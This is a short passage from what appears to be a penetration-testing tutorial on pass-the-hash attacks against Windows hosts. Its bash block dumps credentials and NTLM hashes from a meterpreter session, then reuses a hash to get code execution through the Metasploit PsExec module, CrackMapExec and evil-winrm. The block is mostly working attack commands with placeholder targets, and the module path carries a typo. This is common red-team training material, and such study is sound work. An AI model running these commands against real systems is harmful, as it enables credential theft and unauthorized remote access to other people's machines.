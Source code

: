- Metasploit PsExec module
- Crackmapexec
- evil-winrm

This technique will allow us to obtain access to a system via legitimate credentials as opposed to obtaining
access via service exploitation.

Let's see how to execute this attack.

```bash
# First get a hash.
meterpreter > creds_all
meterpreter > hashdump
# Format is: User:SID:LM:NTLM:::
# Save the NTLM hash in a file or just copy it.
msf5 > use exploit expoit/windows/smb/psexec
msf5 exploit > setg RHOSTS [TARGET]
msf5 exploit > set SMBUser [USER]
msf5 exploit > set SMBPass [LM:NTLM]
msf5 exploit > set target [TARGET ACTION]
# Some of the actions are: Native Upload, Command, powerShell, etc
msf5 exploit > exploit
# Let's go to crackmapexec.
$ crackmapexec smb [TARGET] -u [USER] -H "[NTLM]" {-x [COMMAND]}
$ evil-winrm -i [IP] -u [USERNAME] -H "[NTLM]"
```
